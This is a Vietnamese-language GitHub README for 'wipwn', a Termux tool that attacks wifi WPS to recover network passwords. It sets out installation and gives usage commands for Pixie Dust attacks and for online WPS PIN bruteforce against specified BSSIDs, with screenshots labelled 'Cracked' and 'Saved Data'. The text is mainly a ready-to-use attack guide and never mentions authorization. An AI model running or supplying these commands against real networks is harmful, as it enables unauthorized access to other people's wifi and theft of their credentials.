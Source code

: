 # WIPWN

![Logo](assets/image.png)

### Quét và xem mật khẩu wifi bằng termux (Root).
    
- [Yêu cầu]
  - [Python](https://www.python.org)
  - [Pixiewps](https://www.kali.org/tools/pixiewps/)
  - [Wpa-supplicant](https://wiki.archlinux.org/title/wpa_supplicant)
 
### Cài đặt :

```bash
pkg update && pkg upgrade -y
pkg install root-repo -y
pkg install git tsu python wpa-supplicant pixiewps iw openssl -y
git clone https://github.com/haidayne/wipwn
cd wipwn
chmod +x main.py
```
# Nhập thủ công :

```bash
pkg update && pkg upgrade -y
```
```bash
pkg install root-repo -y
```
```bash
pkg install git tsu python wpa-supplicant pixiewps iw openssl -y
```
```bash
git clone https://github.com/haidayne/wipwn
```
```bash
cd wipwn
```
```bash
chmod +x main.py
```

#### lệnh hỗ trợ :
```bash
sudo python main --help
```
#### Lệnh sử dụng :
```bash
cd wipwn
```

```bash
sudo python main.py -i wlan0 -K
```

#### Note: 
+ **Đầu tiên hãy tắt Wifi của bạn (bắt buộc) .**
+ **Bật Điểm phát sóng (không bắt buộc) .**
+ **Bật Vị trí.**
- Hiển thị các mạng khả dụng và bắt đầu tấn công Pixie Dust trên một mạng đã chỉ định.
```bash
sudo python main.py -i wlan0 -K
```
-```bash wipwn.sh```
- - Bắt đầu tấn công Pixie Dust vào BSSID được chỉ định:
`sudo python main.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Khởi chạy WPS bruteforce trực tuyến với nửa đầu tiên được chỉ định của mã PIN:
- `sudo python main.py -i wlan0 -b 50:0F:F5:B0:08:05 -B -p 1234`
### Xử lý sự cố
**"Thiết bị hoặc tài nguyên đang bận (-16)" - Bật Wifi rồi tắt Wifi.**

---

## Ảnh chụp màn hình

| Banner | Cracked | Saved Data | config.txt | 
| :---: | :---: | :---: | :---: |
| ![image](https://raw.githubusercontent.com/anbuinfosec/anbuinfosec/refs/heads/main/assets/wipwn/1.jpg) | ![image](https://raw.githubusercontent.com/anbuinfosec/anbuinfosec/refs/heads/main/assets/wipwn/2.jpg) | ![image](https://raw.githubusercontent.com/anbuinfosec/anbuinfosec/refs/heads/main/assets/wipwn/3.jpg) | ![image](https://raw.githubusercontent.com/anbuinfosec/anbuinfosec/refs/heads/main/assets/wipwn/4.jpg) |


### ❤️ Cảm ơn vì những ngôi sao và forks
[![Stargazers repo danh sách cho @anbuinfosec/wipwn](https://reporoster.com/stars/dark/anbuinfosec/wipwn)](https://github.com/anbuinfosec/wipwn/stargazers)
[![Forkers repo roster for @anbuinfosec/wipwn](https://reporoster.com/forks/dark/anbuinfosec/wipwn)](https://github.com/anbuinfosec/wipwn/network/members)
